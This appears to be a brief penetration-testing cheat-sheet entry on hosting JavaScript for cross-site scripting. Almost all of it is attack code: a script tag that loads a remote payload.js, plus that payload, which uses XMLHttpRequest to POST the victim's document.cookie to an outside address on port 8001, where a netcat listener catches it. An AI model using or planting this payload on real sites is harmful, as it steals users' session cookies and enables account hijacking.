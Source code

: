 # host javascript

Inject javascript via script tag:

```html
<script src=http://IP:PORT/payload.js></script>
```

## payload.js

Start netcat lister on Port 8001:

```javascript
const xhr = new XMLHttpRequest();
const url='http://1.1.1.1:8001';
xhr.open("POST", url,true);
xhr.send(document.cookie);
```
